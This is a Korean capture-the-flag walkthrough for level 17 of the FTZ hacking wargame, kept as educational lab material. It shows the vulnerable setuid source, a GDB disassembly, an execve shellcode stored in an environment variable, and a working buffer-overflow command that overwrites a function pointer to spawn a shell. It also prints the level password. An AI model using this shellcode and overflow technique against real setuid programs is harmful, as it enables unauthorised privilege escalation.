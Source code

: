```yaml
---
sort: 17
---
```


# Level 17

```note
id : level17

password : king poetic
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 조져보자.

```c
#include <stdio.h>
 
void printit() {
  printf("Hello there!\n");
}
 
main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

GDB를 이용하여 attackme의 main함수를 disassemble했다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x080484a8 (main+0):	push   %ebp
0x080484a9 (main+1):	mov    %esp,%ebp
0x080484ab (main+3):	sub    $0x38,%esp

<b>0x080484ae (main+6):	movl   $0x8048490,0xfffffff0(%ebp) </b>

0x080484b5 (main+13):	sub    $0x4,%esp
0x080484b8 (main+16):	pushl  0x804967c
0x080484be (main+22):	push   $0x30

<b>0x080484c0 (main+24):	lea    0xffffffc8(%ebp),%eax
0x080484c3 (main+27):	push   %eax
0x080484c4 (main+28):	call   0x8048350 (fgets) </b>

0x080484c9 (main+33):	add    $0x10,%esp
0x080484cc (main+36):	sub    $0x8,%esp
0x080484cf (main+39):	push   $0xc1a
0x080484d4 (main+44):	push   $0xc1a
0x080484d9 (main+49):	call   0x8048380 (setreuid)
0x080484de (main+54):	add    $0x10,%esp

<b>0x080484e1 (main+57):	mov    0xfffffff0(%ebp),%eax
0x080484e4 (main+60):	call   *%eax </b>

0x080484e6 (main+62):	leave  
0x080484e7 (main+63):	ret
</pre>

함수포인터인 call에 저장되어있는 printit 함수 주소를 libc에 있는 system함수로 바꾸는 방법을 사용해보려고 했으나, esp 위치가 좋지 않아서 불가능했다.<br>
그 대신 고정적인 위치에 shellcode를 올려놓은 후, shellcode가 있는 주소값으로 덮어씌우기로 했다.<br>
환경변수는 비교적 고정적인 위치를 가지고 있기 때문에 shellcode를 가진 환경변수를 등록한 후 주소를 가지고 와서 사용하기로 했다.

```bash
[level17@ftz tmp]$ export shellcode=$(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80')")
```

환경변수의 주소값을 가져오기 위해 tmp폴더에서 아래와 같은 프로그램을 짰다.

```c
// vi shellcode.c
// gcc -o shellcode shellcode.c

#include <unistd.h>

int main(void)
{
        int p = getenv("shellcode");
        printf("%p\n", p);
        return 0;
}
```

가져온 환경변수의 주소값을 attackme에 알맞게 넣어주면 끝난다.

```bash
[level17@ftz tmp]$ ./shellcode 
0xbfffff02
[level17@ftz tmp]$ (python -c "print('A'*0x28+'\x02\xff\xff\xbf\n')";cat) | ../attackme
my-pass
```

```tip
## 알게 된 점

buffer overflow
```